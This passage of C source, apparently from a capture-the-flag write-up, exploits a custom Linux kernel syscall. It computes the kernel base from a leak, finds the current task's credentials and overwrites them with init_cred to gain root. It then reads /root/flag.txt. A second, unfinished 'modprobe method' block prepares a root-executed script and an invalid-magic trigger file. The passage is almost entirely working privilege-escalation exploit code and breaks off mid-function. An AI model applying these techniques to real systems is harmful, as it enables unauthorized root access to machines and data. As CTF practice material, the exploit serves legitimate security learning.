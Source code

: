 ```c
    char *data[] = {fmt, where, where + 2, where + 4, where + 6};
    syscall(SYSCALL_NO, data);
}

int main(int argc, char *argv[]){
    uint64_t ptr = get_leak();

    uint64_t kbase = ptr - 0x1074ec0;
    uint64_t per_cpu_offset = kbase + 0x14176a0;

    ptr = arb_read_ptr(per_cpu_offset);

    uint64_t task_struct = arb_read_ptr(ptr + 0x16d00);
    uint64_t current_cred_addr = task_struct + 0x6b8;
    uint64_t init_cred = kbase + 0x164e400;

    printf("kernel base: %p\n", kbase);
    printf("task_struct: %p\n", task_struct);
    printf("current cred address: %p\n", current_cred_addr);
    printf("init_cred: %p\n", init_cred);

    write_long(current_cred_addr, init_cred);
    system("id; cat /root/flag.txt");
}

```
## Modprobe method
```c
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>

#define SYSCALL_NO 548

int fd = -1;

__attribute__((constructor)) void init(){
    mkfifo("/home/user/check_fifo", 0666);
    freopen("/home/user/check_fifo", "r+", stdin);
    fd = open("/home/user/check_fifo", O_RDWR);

    system("echo '#!/bin/sh\nchmod 777 /root/flag.txt' > /home/user/to_exec.sh; echo -ne '\\xff\\xff\\xff\\xff' > /home/user/invalid; chmod +x /home/user/to_exec.sh; chmod +x /home/user/invalid");
}

int bytes_left(){
    int nbytes;
    ioctl(fd, FIONREAD, &nbytes);

    return nbytes;
}

int clear_stdin(){
    int size = bytes_left();

```